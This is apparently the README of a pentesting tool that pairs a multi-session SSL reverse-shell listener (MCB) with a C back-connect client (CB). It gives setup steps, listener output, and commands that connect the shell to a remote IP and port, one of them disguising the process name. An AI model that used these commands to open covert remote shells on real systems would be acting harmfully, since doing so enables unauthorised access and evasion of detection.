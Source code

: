 # MCB ( Multi Connect Back )
mcb is a tool for pentesters who want to get multiples pty over SSL.

First you need to make a certificate named mcb.pem using openssl :

```bash
openssl req -newkey rsa:4096 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat cert.pem key.pem > mcb.pem
```

no need to install third party package, mcb use std python3 librairies.

```bash
sh-5.1$ ./mcb 
./mcb <port>
sh-5.1$ ./mcb 9999
MCB listening on 9999
(MCB) 
```
then use the cb binary to connect to mcb and interact with agents:
```bash
new connection from ('127.0.0.1', 42074)
new connection from ('127.0.0.1', 42078)
new connection from ('127.0.0.1', 42080)
new connection from ('127.0.0.1', 42082)
new connection from ('127.0.0.1', 42084)
(MCB) list
0 SSLPTY fd=4 127.0.0.1:42074 => 9999:127.0.0.1
1 SSLPTY fd=5 127.0.0.1:42078 => 9999:127.0.0.1
2 SSLPTY fd=6 127.0.0.1:42080 => 9999:127.0.0.1
3 SSLPTY fd=7 127.0.0.1:42082 => 9999:127.0.0.1
4 SSLPTY fd=8 127.0.0.1:42084 => 9999:127.0.0.1
(MCB) interact 0
~~(__)°> 10:41:48 user@ono $ id
uid=1000(user) gid=1000(user) groups=1000(user),108(vboxusers)
~~(__)°> 10:42:21 user@ono $ 
Detached from fd=4
(MCB) 
```
MCB is like a poor man screen, you can switch between sessions, attaching with interact cmd and detaching with ^D

# CB ( Connect Back )
cb.c is the backconnect shell, you need to install musl-libc dev tools on your computer and clone mbedtls submodule.

```bash
git submodule update --init
make
```
Usage is simple it takes arg from args and env

```
$ bash -c "CHOST=192.168.0.39 CPORT=9999 exec -a myrenamed_process ./cb "
$ ./cb 192.168.0.39 9999
```

[![asciicast](https://asciinema.org/a/dvkXoXeG5uVmhnQMvRQhaE9DG.svg)](https://asciinema.org/a/dvkXoXeG5uVmhnQMvRQhaE9DG)
